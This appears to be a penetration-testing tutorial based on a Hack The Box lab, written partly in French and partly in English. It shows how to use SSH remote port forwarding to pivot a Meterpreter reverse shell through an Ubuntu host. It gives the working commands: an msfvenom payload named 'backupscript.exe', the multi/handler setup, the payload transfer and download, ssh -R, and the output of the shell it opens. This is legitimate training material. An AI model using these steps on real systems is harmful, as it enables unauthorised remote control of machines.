 # Remote/Reverse Port Forwarding with SSH

***

Nous avons vu le transfert de port local, où SSH peut écouter sur notre machine locale et rediriger un service du serveur distant vers un port de notre machine, ainsi que le transfert de port dynamique, qui nous permet d'envoyer des paquets vers un réseau distant via une machine pivot. Mais parfois, nous souhaitons également rediriger un service local vers un port distant. Prenons le scénario où nous pouvons utiliser le protocole RDP pour nous connecter à la machine Windows A. Comme on peut le voir sur l'image ci-dessous, dans notre cas précédent, nous pouvions pivoter vers la machine Windows via le serveur Ubuntu

![](https://academy.hackthebox.com/storage/modules/158/33.png)

<mark style="color:orange;">**Mais que se passe-t-il si nous essayons d'obtenir un reverse shell ?**</mark>

La connexion sortante de l'hôte Windows est limitée au réseau **172.16.5.0/23**. Cela s'explique par le fait que l'hôte Windows n'a aucune connexion directe avec le réseau auquel se trouve l'hôte d'attaque. Ainsi, si nous lançons un listener Metasploit sur notre hôte d'attaque et tentons d'obtenir un reverse shell, nous ne pourrons pas établir une connexion directe, car le serveur Windows ne sait pas comment router le trafic quittant son réseau (172.16.5.0/23) pour atteindre le réseau **10.129.x.x** (le réseau du laboratoire de l'Académie).

Il arrive souvent, lors d'un test d'intrusion, que se contenter d'une simple connexion en bureau à distance (RDP) ne soit pas suffisant. Vous pourriez vouloir télécharger ou téléverser des fichiers (surtout si le presse-papiers RDP est désactivé), utiliser des exploits ou exploiter des API Windows bas niveau via une session Meterpreter pour réaliser une reconnaissance sur l'hôte Windows, ce qui n'est pas possible en utilisant les exécutables Windows natifs.

Dans ces cas-là, nous devons trouver un **hôte pivot** — un point de connexion commun entre notre hôte d'attaque et le serveur Windows. Dans notre scénario, l'hôte pivot sera le serveur Ubuntu, car il peut se connecter à la fois à notre hôte d'attaque et à la cible Windows.

Pour obtenir une session Meterpreter sur Windows, nous allons créer une charge utile (payload) Meterpreter HTTPS à l'aide de **msfvenom**. Cependant, la configuration de la connexion inverse (reverse connection) pour ce payload utilisera l'adresse IP du serveur Ubuntu (172.16.5.129). Nous utiliserons le port **8080** sur le serveur Ubuntu pour transférer tous nos paquets de reverse shell vers le port **8000** de notre hôte d'attaque, où notre listener Metasploit est en cours d'exécution.

<mark style="color:green;">**Creating a Windows Payload with msfvenom**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
{% endcode %}

<mark style="color:green;">**Configuring & Starting the multi/handler**</mark>

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

<mark style="color:green;">**Transferring Payload to Pivot Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00 
```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

<mark style="color:green;">**Starting Python3 Webserver on Pivot Host**</mark>

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

<mark style="color:green;">**Downloading Payload on the Windows Target**</mark>

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
{% endcode %}

{% hint style="warning" %}
Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.
{% endhint %}

<mark style="color:green;">**Using SSH -R**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
{% endcode %}

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

<mark style="color:green;">**Viewing the Logs from the Pivot**</mark>

{% code fullWidth="true" %}
```shell-session
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```
{% endcode %}

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

<mark style="color:green;">**Meterpreter Session Established**</mark>

{% code fullWidth="true" %}
```shell-session
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```
{% endcode %}

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

![](https://academy.hackthebox.com/storage/modules/158/44.png)
